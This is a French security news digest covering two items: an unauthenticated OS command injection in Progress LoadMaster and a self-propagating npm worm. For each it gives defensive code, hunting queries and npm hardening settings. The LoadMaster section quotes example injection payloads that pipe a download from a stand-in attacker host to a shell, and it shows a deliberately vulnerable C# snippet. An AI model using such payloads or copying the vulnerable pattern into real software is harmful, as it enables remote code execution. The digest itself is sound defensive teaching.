

# Tech — Détail du lundi 10 août 2026

## 1. CVE-2026-8037 — Progress Kemp LoadMaster : injection de commandes OS non authentifiée, au KEV

**Source :** Security Affairs — https://securityaffairs.com/196863/hacking/u-s-cisa-adds-a-progress-loadmaster-flaw-to-its-known-exploited-vulnerabilities-catalog.html
**Date :** 8 août 2026 (ajout au KEV le 5 août 2026)

### Contexte

LoadMaster est le répartiteur de charge applicatif de Progress, ex-Kemp. Il se place en frontal : il termine le TLS, répartit le trafic vers les backends, applique des règles WAF. Par construction, son interface de management est un actif hautement privilégié, et son API est souvent joignable depuis le réseau d'administration — parfois, à tort, depuis Internet.

CVE-2026-8037 est une injection de commandes OS dans cette API, notée 9,6 en CVSS. Elle réside dans plusieurs endpoints de commande des produits ADC de Progress, où des entrées ne sont pas assainies avant d'être passées au système. Un attaquant **non authentifié** exécute des commandes arbitraires sur l'appliance.

La chronologie est le vrai enseignement. Divulgation le 4 juin. Code d'exploitation fonctionnel publié le 29 juin. Le même jour, la Threat Response Unit d'eSentire observe des tentatives d'exploitation. Les tirs ont échoué et aucune activité post-compromission n'a été constatée, mais CISA a inscrit la faille au catalogue KEV le 5 août et fixé l'échéance de correction fédérale au **10 août 2026** — aujourd'hui.

### Comment ça marche

Le motif est classique et mérite d'être disséqué, parce que tu l'écris toi-même sans t'en rendre compte. Un endpoint d'administration reçoit un paramètre — nom d'interface, adresse à tester, nom de certificat. L'implémentation construit une ligne de commande shell par concaténation de chaînes, puis l'exécute via un appel qui passe par `/bin/sh`.

Le shell ne voit pas « une commande avec un argument ». Il voit une chaîne à interpréter. Les métacaractères `;`, `|`, `&&`, `$(...)` et les backticks y ont une signification syntaxique. Un paramètre valant `eth0; curl http://attaquant/x | sh` devient deux commandes, dont la seconde est celle de l'attaquant.

La partie « non authentifiée » aggrave tout. Beaucoup d'appliances exposent quelques endpoints avant l'authentification : health check, découverte de version, négociation de session. Si l'un d'eux touche à la construction d'une commande, la barrière d'authentification devient décorative. C'est le cas ici, sur plusieurs endpoints selon l'avis.

L'impact dépasse l'appliance. Un LoadMaster compromis, c'est le point de terminaison TLS — donc les clés privées, le trafic en clair, les cookies de session de tes utilisateurs, et un pivot réseau vers tous les backends déclarés dans la configuration.



### En pratique — exemple de code

Le motif à bannir, et sa correction. Le principe vaut pour ton code .NET comme pour un firmware d'appliance.

```csharp
// AVANT — vulnérable : la chaîne part dans un shell, qui interprète ; | && $( )
var cible = Request.Query["host"];               // ex. "eth0; curl http://x/s | sh"
var psi = new ProcessStartInfo("/bin/sh", $"-c \"ping -c1 {cible}\"");
Process.Start(psi);                              // injection de commandes OS
```

```csharp
// APRÈS — exécutable direct + arguments séparés : AUCUN shell n'interprète la chaîne
var cible = Request.Query["host"].ToString();

// 1. Valider en liste blanche AVANT tout, jamais en liste noire de caractères
if (!System.Net.IPAddress.TryParse(cible, out var ip))
    return BadRequest("Adresse IP invalide.");

// 2. ArgumentList : chaque élément est passé tel quel à execve(), pas au shell
var psi = new ProcessStartInfo("/bin/ping")
{
    ArgumentList = { "-c", "1", ip.ToString() },
    RedirectStandardOutput = true,
    UseShellExecute = false                       // impératif : pas de /bin/sh dans la boucle
};
using var p = Process.Start(psi)!;
```

```bash
# Détection côté exploitation : chercher les processus shell enfants d'un service web
ps -eo ppid,pid,comm,args --forest | grep -E 'sh -c|bash -c'
# Sur LoadMaster : appliquer le correctif Progress, puis restreindre l'API de management
# à un réseau d'administration dédié — jamais joignable depuis Internet.
```

### Pourquoi ça compte pour toi

Deux actions concrètes. D'abord, si un LoadMaster ou un produit ADC Progress traîne dans ton infra, patche aujourd'hui et considère l'appliance comme potentiellement compromise si son API était exposée : rotation des certificats TLS et des secrets backend. Ensuite, passe une revue sur ton propre code : tout `Process.Start` avec une chaîne concaténée et `UseShellExecute = true` est le même bug.

### Points de vigilance

Filtrer les métacaractères en liste noire ne tient pas : l'encodage, les substitutions et les variantes de quoting contournent systématiquement. La seule défense fiable est de ne pas invoquer de shell — exécutable direct et `ArgumentList`.

---

## 2. ChainDrop — le ver npm qui republie avec une provenance valide

**Source :** Microsoft Security Blog — https://www.microsoft.com/en-us/security/blog/2026/08/04/chaindrop-supply-chain-compromise-anatomy-self-propagating-worm/
**Date :** 4 août 2026

### Contexte

Microsoft Threat Intelligence a publié l'analyse complète d'une compromission npm de grande ampleur : plus de 400 paquets, chez des éditeurs sans lien entre eux, dont `keyv`, `flat-cache` et `cache-manager`. Les versions malveillantes embarquent une variante « Mini Shai-Hulud » — un ver auto-propageant, voleur d'identifiants, livré sous forme d'un gros bundle JavaScript obfusqué exécuté par **Bun**.

Le détail qui change la donne par rapport aux campagnes précédentes : de nombreuses versions malveillantes n'ont **aucun commit, PR, tag ou release** correspondant dans le dépôt source. Les attaquants n'ont pas compromis les dépôts publics ; ils ont modifié et publié directement les tarballs. Et pour une partie des paquets, ils l'ont fait via l'identité d'un workflow GitHub Actions légitime.

### Comment ça marche

**Étape 0 — accès initial.** Des identifiants de mainteneur volés. La propagation ultérieure utilise des jetons de publication npm dérobés et, sur certains workflows, l'accès de publication OIDC de GitHub Actions.

**Étape 1 — démarrage.** Un hook `preinstall` lance `setup.mjs`, qui démarre le bundle Bun. `preinstall` s'exécute **avant la fin de l'installation**, donc avant tes tests et avant tout contrôle de sécurité conventionnel. La charge fait un préflight : elle sort sur les systèmes en russe, évite les instances doublons, et se détache en arrière-plan sur un poste de développeur. En CI, elle reste **attachée** au job, pour accéder aux secrets du workflow.

**Étapes 2-3 — collecte.** Jeton GitHub CLI, toutes les variables d'environnement du processus, fichiers d'identifiants, historiques shell, configurations cloud, clés SSH. Puis — et c'est le point avancé — la charge ne se contente pas de chercher des motifs de jetons. Elle **appelle les API** de npm, GitHub, AWS, Kubernetes et HashiCorp Vault pour valider les accès et récupérer les secrets supplémentaires autorisés à ces identités.

**Étape 4 — exfiltration.** JSON sérialisé, compressé en gzip, chiffré en AES-256-GCM avec une clé aléatoire de 32 octets, elle-même chiffrée avec la clé publique RSA de l'attaquant en RSA-OAEP-SHA256. Le domaine de destination est **résolu dynamiquement depuis un contrat on-chain** — l'attaquant fait tourner son infrastructure quand il veut. Repli : créer un dépôt GitHub public et y committer les résultats chiffrés.

**Étape 6 — abus OIDC.** Le chemin le plus dérangeant. Pour les workflows configurés comme *trusted publishers* npm, la charge republie via le jeton OIDC du workflow. Les paquets ainsi publiés portent une **provenance valide**, parce que la publication provient bien d'une identité de workflow légitime. La signature atteste de l'origine, pas de l'intention.

**Étape 8 — persistance dans l'IDE.** Avec un jeton GitHub, la charge injecte `setup.mjs` et des configurations dans les branches accessibles : `.claude/settings.json`, `.claude/setup.mjs`, `.vscode/tasks.json`, `.vscode/setup.mjs`. Une activité future de l'éditeur ou de l'agent relance la charge, même après nettoyage du `node_modules`.

**Étape 9 — le ver.** Les jetons npm collectés sont testés pour le droit d'écriture et la capacité de contournement 2FA. Pour chaque paquet accessible, la routine télécharge le dernier tarball, y copie le bundle, remplace les scripts de cycle de vie, incrémente le patch et republie. Un jeton volé produit des dizaines de releases malveillantes.

### En pratique — exemple de code

Les requêtes de chasse publiées par Microsoft pour Defender XDR, et la mitigation côté projet.

```kusto
// Exécution du loader preinstall — signature la plus directe
DeviceProcessEvents
| where Timestamp > ago(3d)
| where FileName in~ ("node", "node.exe")
| where ProcessCommandLine in~ ("node setup.mjs", "node  setup.mjs")

// Seconde étape : Bun lancé par node, depuis un node_modules ou un dossier bun-dl-
DeviceProcessEvents
| where Timestamp > ago(3d)
| where InitiatingProcessFileName in~ ("node", "node.exe")
| where FileName in~ ("bun", "bun.exe")
| where FolderPath contains "bun-dl-" or ProcessCommandLine has "node_modules"
```

```bash
# AVANT — install par défaut : les scripts de cycle de vie s'exécutent, y compris preinstall
npm ci

# APRÈS — trois lignes de défense cumulables
npm install -g npm@12                    # npm CLI v12
npm config set min-release-age 3d        # refuse toute version publiée il y a moins de 3 jours
npm ci --ignore-scripts                  # aucun pre/postinstall exécuté

# Chasse locale : artefacts nommés Math_*.js déposés dans les dossiers Node
find . -path ./node_modules -prune -o -name 'Math_*.js' -print
grep -rl 'setup.mjs' .claude .vscode 2>/dev/null   # persistance IDE injectée dans le dépôt
```

### Pourquoi ça compte pour toi

Trois réflexes. Active `min-release-age` : la fenêtre entre publication malveillante et retrait est courte, et cette option seule bloque l'essentiel. Passe tes CI en `--ignore-scripts` partout où c'est possible. Enfin, inspecte `.claude/` et `.vscode/` de tes dépôts : c'est un chemin de persistance que ta revue de code ne regarde jamais, et qui survit à un nettoyage de `node_modules`.

### Limites

La leçon dure : **une attestation de provenance valide ne prouve pas qu'un artefact est sain**. Elle prouve d'où il vient. Si le processus de release est subverti, la signature accompagne le malware. La réponse à incident ne peut pas s'arrêter au triage des postes — elle doit vérifier que le pipeline de publication lui-même n'a pas été détourné.
